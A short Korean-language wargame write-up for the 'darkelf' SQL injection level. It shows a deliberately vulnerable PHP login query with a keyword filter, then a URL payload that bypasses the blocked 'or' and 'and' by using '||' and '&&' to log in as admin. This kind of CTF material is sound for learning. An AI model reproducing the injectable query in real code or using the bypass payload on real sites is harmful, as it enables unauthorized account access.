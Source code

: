 # DARKELF

## code
```php
<?php 
  include "./config.php"; 
  login_chk(); 
  dbconnect();  
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~"); 
  if(preg_match('/or|and/i', $_GET[pw])) exit("HeHe"); 
  $query = "select id from prob_darkelf where id='guest' and pw='{$_GET[pw]}'"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysql_fetch_array(mysql_query($query)); 
  if($result['id']) echo "<h2>Hello {$result[id]}</h2>"; 
  if($result['id'] == 'admin') solve("darkelf"); 
  highlight_file(__FILE__); 
?>
```

## solution
위 코드를 보면 wolfmen과 같은 문제이지만 or과 and가 막혀있다. 그러므로 url 뒤에
```
?pw=' || 1=1 %26%26 id='admin'%23
```
이와 같이 입력을 하게 되면 ||은 or과 같은 의미이고 %26%26(&&)은 and와 같은 의미이기 때문에 id에는 admin이들어가고 pw는 참이 되어서 문제가 풀리게된다.

--------------